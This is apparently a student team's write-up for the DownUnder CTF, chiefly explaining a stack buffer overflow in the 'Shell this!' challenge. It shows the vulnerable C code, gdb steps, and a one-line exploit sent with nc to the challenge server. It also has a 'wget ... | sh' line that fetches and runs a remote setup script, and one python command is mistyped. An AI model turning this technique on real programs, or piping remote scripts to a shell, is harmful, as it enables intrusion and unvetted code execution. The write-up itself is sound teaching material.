


# DownUnder CTF

### Team name: 466 Crew

### Challenges completed

|Category|Name|Points|
|--------|----|------|
|crypto|rot-i|100|
|misc|Welcome!|100|
|misc|In a pickle|200|
|pwn|Shell this!|100|
|reversing|formatting|100|

Our team completed five challenges.  Our team dispersed individually at first when we started looking into solving the challenges.  We then came together in a group discussion to resolve the remaining challenges.

---

### Individual Challenge summary

I started to look at the **pwn**`Shell this!` challenge first.  I was only able to complete one challenge individual.  Below is the source code of the challenge and a description of solving it.

```c
#include <stdio.h>
#include <unistd.h>

__attribute__((constructor))
void setup() {
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stdin, 0, 2, 0);
}

void get_shell() {
    execve("/bin/sh", NULL, NULL);
}

void vuln() {
    char name[40];

    printf("Please tell me your name: ");
    gets(name);
}

int main(void) {
    printf("Welcome! Can you figure out how to get this program to give you a shell?\n");
    vuln();
    printf("Unfortunately, you did not win. Please try again another time!\n");
}
```

The vulnerability in this case is the use of the `gets()` function and the lack of input validation.  This can be exploited to overflow the buffer and overwrite the address of the stack pointer.

The goal of this challenge was to overwrite the stack pointer to point to the entry address of the `get_shell()` function in order to obtain a shell and access the flag.  Below are the steps taken


* Identify the address of `get_shell()`
  * Open the binary using gdb `gdb shell_this`
  * Set a break point `b main`
  * Run the program `r`
  * Jump to the get_shell function `jump get_shell` see 
* Identify the padding between the buffer and the stack pointer.  This is a bit trial by error on command line.  Another tool like Ghidra could also be used.  Below is the command we ran to identify the magic number of **56** (i.e. when the program crashes)
  *  ```python -c 'print'("a" * 56)' | ./shellthis'```

Once we know the address we want to point to `4006ca` and the padding we need `56` we can solve the challenge by running the command below

```
python -c 'print("a" * 56 + "\xca\x06\x40")' > input; cat input - | nc chal.duc.tf 30002
```

**Notes**:

- Consider using gef when using gdb to make debugging easier

  ```wget -q -O- https://github.com/hugsy/gef/raw/master/scripts/gef.h | sh```

- The solution for this challenge was inspired by https://youtu.be/ZkCSQ9UlsMs

##### Problems faced

- The solution above only works using python2 and will not work in python3 due to the differences in how sequences of strings are treated.  This issue was discovered during the challenge.  You can read more about it at this Stack Overflow https://stackoverflow.com/a/32017511/6020034.

  Here's a python3 way of sending bytes

```python
offset = 1
with open("output", "wb") as f:
        payload = b"\x62"*offset + b"\x62"
        f.write(payload)
```

- Using gdb on Mac OS
  - I ran into an issue where I was unable to run gdb because it wasn't code signed.  I found these [instructions to install gdb](https://www.thomasvitale.com/how-to-setup-gdb-and-eclipse-to-debug-c-files-on-macos-sierra/) and create a code sign certificate in order to get it to work.
  - Executing gdb on MacOs by default will start a shell inside of running the program.  This was fixed by adding `set startup-with-shell off` to `~/.gdbinit`
  - The hardware and OS architecture on my MacOS are different than the linux machines in the capture the flag challenges  This made it more difficult to debug the programs due to the different registers and architecture being used.  I ended up installing Ubuntu on VM to work around this.  An after thought is to better understand the differences so I can switch between architectures and continue debugging.

  ---

### Team challenge summary

We used discord to communicate as a a team and create a channel for each challenge category. We sent flags, code snippets, and screen shots throughout our discussions.  Our team discussed the solution to the `Shell this!` in the **pwn** category and two challenges (`formatting` and `added_protection`) in the the **reversing** category. We solved the formatting challenge by running ltrace.  The output appeared to only provide part of the flag but we were able to find the missing bytes from the output and by inspecting the binary in https://cloud.binary.ninja/.  



 The remaining challenges were solved individually by the other team members and are documented in their individual write ups.
